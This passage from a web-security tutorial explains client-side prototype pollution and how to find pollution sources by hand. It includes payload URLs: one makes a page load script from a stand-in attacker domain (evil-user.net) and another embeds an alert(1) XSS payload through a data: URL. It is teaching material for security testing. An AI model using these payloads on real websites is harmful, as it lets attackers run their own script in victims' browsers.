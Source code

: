 If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the src for this script to a domain of the attacker's choosing. 

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain: 

```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

By providing a `data:` URL, an attacker could also directly embed an XSS payload within the query string as follows:

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

# Client-side prototype pollution vulnerabilities

## Finding client-side prototype pollution sources manually

Finding prototype pollution sources manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works.

1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input.
```
 vulnerable-website.com/?__proto__[foo]=bar 
```
2. In our browser console, inspect `Object.prototype` to see if you have successfully polluted it with your arbitrary property:
```
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
```
3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
```
vulnerable-website.com/?__proto__.foo=bar
```
4. Repeat this process for each potential source

![Proto](/hackingnotes/images/proto-manual-source.png)


## Finding client-side prototype pollution sources using DOM Invader

Finding prototype pollution sources manually can be a fairly tedious process. Instead, we recommend using DOM Invader, which comes preinstalled with Burp's built-in browser. DOM Invader is able to automatically test for prototype pollution sources as you browse, which can save you a considerable amount of time and effort. 
